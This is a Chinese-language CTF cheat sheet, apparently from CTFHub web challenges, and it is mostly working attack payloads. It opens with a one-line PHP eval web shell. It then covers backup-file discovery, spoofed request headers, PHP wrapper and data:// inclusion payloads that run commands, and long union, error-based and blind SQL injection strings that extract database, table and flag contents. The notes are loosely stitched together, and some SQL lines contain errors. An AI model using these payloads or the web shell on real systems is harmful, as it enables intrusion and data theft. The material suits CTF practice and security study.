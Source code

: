 <?php @eval($_POST['qiu'];?>

vi Hello.c

gcc -o Hello Hello.c

./hello



如果网站存在备份文件，常见的备份文件后缀名有：“.git” 、“.[svn](https://so.csdn.net/so/search?q=svn&spm=1001.2101.3001.7020)”、“ .swp”“.~”、“.bak”、“.bash_history”、“.bkf” 尝试在URL后面，依次输入常见的文件备份扩展名。

# 备份文件下载 - 网站源码



可能有点用的提示

#### 常见的网站源码备份文件后缀

------

- tar
- tar.gz
- zip
- rar

#### 常见的网站源码备份文件名

------

- web
- website
- backup
- back
- www
- wwwroot
- temp

1 按下F12
2 点击Network
3 刷新网页查看Network界面的变化
4 点击Network界面下的Headers
5 找到Cookie并复制后面内容

X-Forwarded-For: 123.123.123.123

Referer: https://www.google.com



常用伪协议用法：
1.php伪协议
用法
php://input,用于执行php代码，需要post请求提交数据。
php://filter,用于读取源码，get提交参数。?a=php://filter/read=convert.base64/resource=xxx.php
需要开启allow_url_fopen:php://input、php://stdin、php://memory、php://temp
不需要开启allow_url_fopen:php://filter

2.、data协议

用法：
data://text/plain,xxxx(要执行的php代码)
data://text/plain;base64,xxxx(base64编码后的数据)
例：
?page=data://text/plain,
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=

3.、file协议
用法：
file://[本地文件系统的绝对路径]



## **尝试SQL注入** （手动）

确定闭合?id=1 or 1=2   ?id=1 and 1=1

用/**/代替空格

整型 字符（/?id=-1' union select 1,2 --+）

order by 2

/?id=-1 union select 8,9

/?id=-1 union select 8,database()

/?id=-1 union select 8,group_concat(table_name) from information_schema.tables where table_schema=0x73716c69      ---->sqli

/?id=-1 union select 8,group_concat(column_name) from information_schema.columns where table_name=0x666c6167        ----->flag

/?id=-1  union select 8,flag from sqli.flag

****

报错

/?id=1 and updatexml(1,concat(0x5e,database()),1)

/?id=1 and updatexml(1,concat(0x5e,(select group_concat(table_name) from information_schema.tables where table_schema=0x73716c69),0x5e),1)

/?id=1 and updatexml(1,concat(0x5e,(select group_concat(column_name) from information_schema.columns where table_name=0x666c6167),0x5e),1)

/?id=1 and updatexml(1,concat(0x5e,(select flag from sqli.flag),0x5e),1)

我们使用mid 就可以得到flag后面的一部分，只有一个 } 

ctfhub{3ca6d5c39c29f29c2da55c49} 这样的话我们呢就得到了 全部的flag

/?id=1 and updatexml(1,concat(0x5e,mid((select flag from sqli.flag),32),0x5e),1)

---

盲注

#### 1、爆数据库名长度 2、根据库名长度爆库名

1.?id=if(substr(database(),1,1)="s",1,3)   （假设1返回T，3 返回F）

2.id=1 and (盲注的信息)

**if(expr1,expr2,expr3)，如果expr1的值为true，则执行expr2语句，如果expr1的值为false，则执行expr3语句。**expr1处插入判断语句，expr2处放上正确语法的sql语句，expr3处放上错误语法的sql语句,

**substr(str,from,length)`:返回从下标为from截取长度为length的str子串。**其中，首字符下标为1

**length(str)`:返回str串长度**

#### 3、对当前库爆表数量 4、根据库名和表数量爆表名长度 5、根据表名长度爆表名

**?id=1 and (select COUNT(*) from information_schema.tables where table_schema=database())=1**  爆表数量



**?id=1 and length(select table_name from information_schema.tables where table_schema=database() limit 0,1)=4** 爆表长度
#query_success
#当前库sqli的第一张表表名长度为4

**?id=1 and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)=‘n’ **爆字符
#query_success
#当前库sqli的第一张表表名第一个字符是n

#### 6、对表爆列数量 7、根据表名和列数量爆列名长度 8、根据列名长度爆列名

?id=1 and (select COUNT(*) from information_schema.columns where table_schema=database() and table_name=‘flag’)=2 爆列数
#query_success
#当前库sqli表flag的列数为2

?id=1 and length(select columns from information_schema.columns where table_schema=database() and table_name=‘flag’ limit 0,1)=4 爆列名长度
#query_success
#当前库sqli表flag的第二列列名长度为4

?id=1 and substr((select columns_name from information_schema.columns where table_schema=database() and table_name=‘flag’ limit 0,1),1,1)=‘i’ 爆列名
#query_success
#当前库sqli表flag的第一列列名第一个字符为i

#### 9、根据列名爆数据

?id=1 and substr((select flag from sqli.flag),1，1)=“a”

 *#query_error*





